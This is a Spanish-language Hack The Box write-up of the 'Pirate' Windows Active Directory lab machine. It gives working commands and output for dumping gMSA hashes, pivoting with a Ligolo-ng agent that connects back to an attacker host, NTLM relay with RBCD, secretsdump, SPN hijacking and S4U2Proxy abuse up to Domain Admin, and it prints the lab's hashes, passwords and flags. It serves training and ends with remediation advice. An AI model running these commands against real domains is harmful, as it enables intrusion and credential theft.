






# HTB Machine Report — Pirate

**Date:** 2026-05-27
**Author:** Franksimon
**Platform:** Hack The Box
**Difficulty:** HARD
**OS:** Windows (Active Directory)
**IP:** 10.129.244.95 (DC01) / Red interna: 192.168.100.0/24
**Status:** Pwned

---

## 1. Executive Summary

Pirate es una máquina Windows Active Directory de dificultad Hard. El acceso inicial se logra abusando del grupo **Pre-Windows 2000 Compatible Access** para autenticar como `MS01$` con contraseña predeterminada y dumpear el hash NTLM de `gMSA_ADFS_prod$` vía CrackMapExec con Kerberos ccache, obteniendo shell WinRM en DC01. Con Ligolo-ng como pivote hacia la red interna (192.168.100.0/24), se detecta WebClient habilitado en WEB01 y se combina NTLM relay con RBCD para comprometer WEB01 como Administrator (user flag). La escalación a Domain Admin encadena ForceChangePassword sobre `a.white_adm`, SPN hijacking contra DC01 usando WriteSPN del grupo IT mediante `addspn.py`, y S4U2Proxy con `-altservice` para obtener un ticket `host/DC01` válido contra el DC.

**Cadena de ataque:**
```
MS01$ (Pre-Win2000) → gMSA dump (CME --gmsa) → evil-winrm DC01 → Ligolo pivot
→ WebClient detection → NTLM relay + RBCD → Admin WEB01 (user flag) → secretsdump
→ ForceChangePassword → SPN hijack (addspn.py) → S4U altservice → Domain Admin
```

---

## 2. Enumeration

### 2.1 Port Scan — DC01

```bash
sudo nmap -Pn -sC -sV 10.129.244.95
```

| Port      | Service            |
|-----------|--------------------|
| 53/tcp    | DNS                |
| 80/tcp    | HTTP               |
| 88/tcp    | Kerberos           |
| 135/tcp   | RPC                |
| 139/tcp   | NetBIOS            |
| 389/tcp   | LDAP               |
| 443/tcp   | HTTPS              |
| 445/tcp   | SMB                |
| 464/tcp   | Kerberos kpasswd   |
| 593/tcp   | RPC over HTTP      |
| 636/tcp   | LDAPS              |
| 2179/tcp  | vmrdp              |
| 3268/tcp  | Global Catalog     |
| 3269/tcp  | Global Catalog SSL |
| 5985/tcp  | WinRM              |
| 9389/tcp  | AD Web Services    |

Dominio: `pirate.htb` — DC01.pirate.htb

### 2.2 Pre-Windows 2000 Compatible Access → gMSA Dump

El grupo **Pre-Windows 2000 Compatible Access** contiene `MS01$` y `EXCH01$`, cuentas de máquina con contraseña predeterminada (nombre en minúsculas). Con el TGT de `MS01$` se puede leer `msDS-ManagedPassword` de cuentas gMSA.

```bash
# Obtener TGT con contraseña predeterminada
/tmp/imp/bin/getTGT.py 'pirate.htb/MS01$:ms01' -dc-ip 10.129.244.95
# [*] Saving ticket in MS01$.ccache

# Dumpear gMSA vía CME con Kerberos ccache
KRB5CCNAME=MS01$.ccache crackmapexec ldap 10.129.244.95 -u 'MS01$' -k --use-kcache --gmsa
```

```
Account: gMSA_ADCS_prod$  NTLM: 2b8849da91d5206b9d1d1dcb44467089
Account: gMSA_ADFS_prod$  NTLM: 76754c94319e3a7dc07ba09aa79028ee
```



Hash NTLM de `gMSA_ADFS_prod$` obtenido. Esta cuenta es miembro de **Remote Management Users** en DC01.

!!! note "Autenticación de cuentas de máquina"
    `MS01$` no puede autenticarse contra LDAP via contraseña (workstation trust account → `invalidCredentials`). Obligatorio usar TGT Kerberos → `--use-kcache`.

---

## 3. Acceso Inicial — evil-winrm como gMSA_ADFS_prod$

```bash
evil-winrm -i 10.129.244.95 -u 'gMSA_ADFS_prod$' -H '76754c94319e3a7dc07ba09aa79028ee'
```



Shell como `pirate\gmsa_adfs_prod$` en DC01.

---

## 4. Ligolo-ng — Pivot a 192.168.100.0/24

Desde evil-winrm en DC01 se sube el agente y se establece el tunnel:

```bash
# Kali
./proxy -selfcert -laddr 0.0.0.0:11601

# DC01 (evil-winrm)
upload agent.exe
.\agent.exe -connect 10.10.14.207:11601 -ignore-cert
```





```bash
# Kali — activar ruta
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.100.0/24 dev ligolo
```



WEB01 (192.168.100.2) ahora accesible desde Kali.

---

## 5. NTLM Relay + RBCD → Admin en WEB01

### WebClient Detection

Antes de intentar relay, verificar que WebClient esté activo en WEB01 (requisito para coerción via WebDAV):

```bash
crackmapexec smb 192.168.100.2 -u pentest -p 'p3nt3st2025!&' -M webdav
```

```
WEBDAV  192.168.100.2  WEB01  WebClient Service enabled on: 192.168.100.2
```

WebClient habilitado → coerción via `@port` notation disponible.

### NTLM Relay Setup

SMB signing en WEB01: `enabled but not required` → vulnerable a relay.

```bash
# Terminal 1 — relay a LDAPS del DC con delegación RBCD
sudo ntlmrelayx.py -t ldaps://10.129.244.95 --delegate-access --remove-mic -smb2support

# Terminal 2 — coerción de WEB01 hacia Kali
coercer coerce -l 10.10.14.207 -t 192.168.100.2 \
  -d pirate.htb -u pentest -p 'p3nt3st2025!&' --always-continue
```



```
[*] Authenticating connection from PIRATE/WEB01$@10.129.244.95 against ldaps://10.129.244.95 SUCCEED
[*] Adding new computer with username: WIHDYOOD$ and password: /p/u+d2(o13llbH result: OK
[*] Delegation rights modified successfully!
[*] WIHDYOOD$ can now impersonate users on WEB01$ via S4U2Proxy
```

!!! warning "`--remove-mic` es obligatorio"
    Sin esta flag: `The client requested signing. Relaying to LDAP will not work!`

### Obtener Shell en WEB01

```bash
# Sincronizar reloj (KRB_AP_ERR_SKEW)
sudo ntpdate -u 10.129.244.95
# 2026-05-27 04:18:06.312848 (-0600) +719.012374 +/- 0.036244 10.129.244.95 s1 no-leap

# Ticket S4U como Administrator
/tmp/imp/bin/getST.py -spn cifs/WEB01.pirate.htb -impersonate Administrator \
  -dc-ip 10.129.244.95 'pirate.htb/WIHDYOOD$:/p/u+d2(o13llbH'
# [*] Saving ticket in Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache

# Shell en WEB01
KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache \
  wmiexec.py -k -no-pass pirate.htb/Administrator@WEB01.pirate.htb
```

---

## 6. Post-Exploitation — WEB01

### User Flag

```
C:\Users\a.white\Desktop> type user.txt
8780c8e8b4a4f1bb4627760352cc920f
```

### Credential Dump

```bash
KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache \
  secretsdump.py -k -no-pass pirate.htb/Administrator@WEB01.pirate.htb
```

LSA Secrets:

```
[*] DefaultPassword
PIRATE\a.white:E2nvAOKSz5Xz2MJu
```

---

## 7. Privilege Escalation — Domain Admin

### BloodHound

```bash
bloodhound-python -u a.white -p 'E2nvAOKSz5Xz2MJu' \
  -d pirate.htb -ns 10.129.244.95 -c All --zip
```

```
INFO: Found 5 computers, 10 users, 54 groups, 2 gpos, 1 ous, 20 containers
INFO: Compressing output into 20260527042539_bloodhound.zip
```

Hallazgos clave:

```
a.white ──ForceChangePassword──► a.white_adm
a.white_adm ──memberOf──► IT
IT ──WriteSPN──► DC01$
```

`a.white_adm`: `trustedtoauth=true`, `AllowedToDelegate=http/WEB01.pirate.htb`

### ForceChangePassword

```bash
net rpc password a.white_adm 'Pirate123!' \
  -U 'pirate.htb/a.white%E2nvAOKSz5Xz2MJu' -S 10.129.244.95
```

### SPN Hijacking

`a.white_adm` delega a `http/WEB01.pirate.htb`. Al mover ese SPN de WEB01$ a DC01$ (usando el WriteSPN que IT tiene sobre DC01$), el S4U2Proxy apuntará al DC.

```bash
# Quitar SPN de WEB01$
python3 /tmp/krbrelayx/addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
  -t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' -r 10.129.244.95
# [+] SPN Modified successfully

# Inyectar SPN en DC01$
python3 /tmp/krbrelayx/addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
  -t 'DC01$' -s 'HTTP/WEB01.pirate.htb' 10.129.244.95
# [+] SPN Modified successfully
```

!!! note "Formato de usuario en addspn.py"
    Usar `DOMAIN\username` con backslash. Con slash `/` falla: `Username must include a domain, use: DOMAIN\username`

### S4U2Proxy + altservice → Domain Admin

```bash
/tmp/imp/bin/getST.py -spn 'http/WEB01.pirate.htb' \
  -altservice 'host/DC01.pirate.htb' \
  -impersonate Administrator \
  -dc-ip 10.129.244.95 \
  'pirate.htb/a.white_adm:Pirate123!'
```

```
[*] Changing service from http/WEB01.pirate.htb@PIRATE.HTB
                        to host/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache
```

```bash
KRB5CCNAME=Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache \
  wmiexec.py -k -no-pass pirate.htb/Administrator@DC01.pirate.htb
```

---

## 8. Root Flag

```
C:\Users\Administrator\Desktop> type root.txt
cb58d84bd134cb4a8496837cedcd152c
```

`whoami → pirate\administrator` en DC01. Domain Admin.

---

## 9. Remediation

| Finding | Recomendación | Prioridad |
|---------|--------------|-----------|
| Pre-Win2000 cuentas activas | Quitar del grupo; rotar contraseñas | Critical |
| gMSA legible por cuentas de máquina | Auditar msDS-GroupMSAMembership | High |
| SMB signing no requerido (WEB01) | Habilitar via GPO | Critical |
| LDAP signing no requerido (DC01) | Requerir firma LDAP | Critical |
| WebClient habilitado en servidores | Deshabilitar via GPO si no es necesario | High |
| ForceChangePassword sobre cuenta admin | Auditar ACLs con BloodHound | High |
| WriteSPN de grupo IT sobre DC01 | Restringir a Domain Admins | High |
| trustedtoauth + constrained delegation | Usar gMSA para servicios | High |

---

## 10. Lessons Learned

- **Pre-Win2000 Compatible Access** es el vector más fácil de pasar por alto — siempre enumerar sus miembros.
- **gMSA dump via CME:** `MS01$` no puede autenticarse con contraseña a LDAP — sólo via TGT Kerberos. Usar `--use-kcache` con `KRB5CCNAME`.
- **`--remove-mic`** en ntlmrelayx es obligatorio para relay a LDAPS.
- **WebClient detection primero:** `crackmapexec smb -M webdav` — sin WebClient activo la coerción vía WebDAV no funciona.
- **SPN hijacking:** WriteSPN en un objeto de computadora permite redirigir a quién apunta una delegación existente sin tocar `msDS-AllowedToDelegateTo`. Usar `addspn.py` de krbrelayx (bloodyAD y ldap3 directo fallan).
- **`-altservice`** en getST.py relabelea el TGS resultante para usarlo con la herramienta correcta — wmiexec necesita `host/`, evil-winrm con GSSAPI falla si `/etc/krb5.conf` no existe o hay case mismatch en el SPN.
- **ntpdate:** El skew era de +719 segundos. Sin sincronización, todo getST.py falla con `KRB_AP_ERR_SKEW`.

---

## 11. References

- [Pre-Windows 2000 Compatible Access](https://www.thehacker.recipes/ad/movement/dacl/pre-windows-2000-computers)
- [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)
- [NTLM Relay + RBCD — The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ntlm/relay)
- [krbrelayx / addspn.py](https://github.com/dirkjanm/krbrelayx)
